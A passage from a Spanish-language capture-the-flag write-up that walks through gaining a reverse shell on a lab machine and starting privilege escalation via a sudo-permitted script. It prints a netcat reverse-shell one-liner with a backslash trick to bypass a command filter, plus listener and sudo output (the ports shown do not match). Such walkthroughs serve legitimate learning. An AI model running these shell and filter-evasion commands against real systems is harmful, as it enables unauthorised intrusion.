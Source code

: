 Nos metemos y podemos listar comandos.

# [](#header-1)Acceso al sistema

Intentamos ejecutar una reverse shell pero no nos deja de forma directa. Desde la web de <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey</a> usaremos la de Netcat ya que añadiendo \ entre la r y la m al principio de la reverse shell si que se lleva a cabo:

```bash
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Mientras tanto desde nuestro equipo nos ponemos en escucha por el puerto indicado en la reverse shell:

```bash
❯ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.8.4.179] from (UNKNOWN) [10.10.229.49] 45636
/bin/sh: 0: can't access tty; job control turned off
$
```

Listamos el contenido del usuario apaar pero siendo www-data no podemos hacer gran cosa. Sin embargo me fijo en el archivo .helpline.sh

```bash
$ cd apaar
$ ls -la
total 44
drwxr-xr-x 5 apaar apaar 4096 Oct  4  2020 .
drwxr-xr-x 5 root  root  4096 Oct  3  2020 ..
-rw------- 1 apaar apaar    0 Oct  4  2020 .bash_history
-rw-r--r-- 1 apaar apaar  220 Oct  3  2020 .bash_logout
-rw-r--r-- 1 apaar apaar 3771 Oct  3  2020 .bashrc
drwx------ 2 apaar apaar 4096 Oct  3  2020 .cache
drwx------ 3 apaar apaar 4096 Oct  3  2020 .gnupg
-rwxrwxr-x 1 apaar apaar  286 Oct  4  2020 .helpline.sh
-rw-r--r-- 1 apaar apaar  807 Oct  3  2020 .profile
drwxr-xr-x 2 apaar apaar 4096 Oct  3  2020 .ssh
-rw------- 1 apaar apaar  817 Oct  3  2020 .viminfo
-rw-rw---- 1 apaar apaar   46 Oct  4  2020 local.txt
```

Hago sudo -l para ver los comandos que puedo ejecutar como root:

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
Puedo ejecutar el archivo como usuario apaar, lo llevo a cabo y nos hace dos preguntas. Lo primero que se me viene a la cabeza es ejecutar una bash (/bin/bash), parece ser que funciona:
